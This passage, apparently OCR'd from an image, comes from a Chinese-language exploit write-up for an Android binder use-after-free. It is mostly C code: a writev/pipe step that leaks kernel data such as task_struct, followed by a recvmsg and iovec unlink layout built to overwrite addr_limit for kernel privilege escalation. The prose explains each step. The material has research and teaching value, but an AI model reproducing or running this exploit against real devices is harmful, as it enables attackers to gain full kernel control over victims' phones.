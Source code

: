 ```cpp
}
//printf("PARENT: Calling READV\n");
ioctl(binder_fd, BINDER_THREAD_EXIT, NULL);
b = writev(pipefd[1], iovec_array, IOVEC_ARRAY_SZ);
printf("writev() returns 0x%x\n", (unsigned int)b);
// second page: leaked data
if (read(pipefd[0], page_buffer, sizeof(page_buffer)) != sizeof(page_buffer)) err(1, "read full pipe");
```

### 2.4 Overwrite addr\_limit

前面已经拿到了进程的```task_struct```，下面将会重复类用与上面相似的```iovec[25]```布局去尝试改写```addr_limit```。 与leaking ```task_struct```相比，不同之处在于本次不再用```writev```，而使用```recvmsg```去接收```iovsec[25]```，阻塞等待，直到```write```写入数据篡改```addr_limit```:

利用```socket```，同样可以如读写```iovec```数组：

```cpp
struct msghdr msg = {
.msg_iov = iovec_array,
.msg_iovlen = IOVEC_ARRAY_SZ
};
```

这里只需准备好```msghdr```结构体，而后利用```recvmsg```等待数据写入```iovec[25]```即可。

```cpp
int recvmsg_result = recvmsg(socks[0], &msg, MSG_WAITALL);
```

再看本次unlink前使用的内存布局：

```cpp
struct iovec iovec_array[IOVEC_ARRAY_SZ];
memset(iovec_array, 0, sizeof(iovec_array));

// Unlink Layout
iovec_array[IOVEC_INDX_FOR_WQ].iov_base = dummy_page_4g_aligned; /* spinlock in the low address half must be zero */
iovec_array[IOVEC_INDX_FOR_WQ].iov_len = 1; /* wq->task_list->next */
iovec_array[IOVEC_INDX_FOR_WQ + 1].iov_base = (void *)0xDEADBEEF; /* wq->task_list->prev */
iovec_array[IOVEC_INDX_FOR_WQ + 1].iov_len = 0x8 + 2 * 0x10; /* iov_len of previous, then this element and next element */
iovec_array[IOVEC_INDX_FOR_WQ + 2].iov_base = (void *)0xBEEFDEAD;
iovec_array[IOVEC_INDX_FOR_WQ + 2].iov_len = 8; /* should be correct from the start, kernel will sum up lengths when importing */

```
